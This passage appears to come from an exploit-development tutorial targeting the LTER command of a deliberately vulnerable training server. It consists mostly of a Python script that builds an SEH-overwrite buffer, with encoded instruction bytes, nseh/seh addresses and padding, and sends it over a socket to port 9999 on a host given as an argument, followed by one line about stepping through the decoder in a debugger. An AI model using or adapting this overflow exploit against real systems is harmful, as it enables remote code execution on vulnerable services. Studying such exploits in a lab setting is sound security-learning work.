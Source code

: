 ```term
pushesi += "\x05\x21\x26\x23\x61" ## add  eax, 0x61232621
pushesi += "\x50"                 ## push eax

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3 + buf + "A" * (3515 - 3 - len(buf)) + nseh + seh + "A" * 2 + alignment + pushesi + "A" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### If we add some breakpoints at the end of the SUB/ADD instructions, we may see how to instructions get decoded as we step through!

![](/assets/img/LTER/16.png)

![](/assets/img/LTER/17.png)
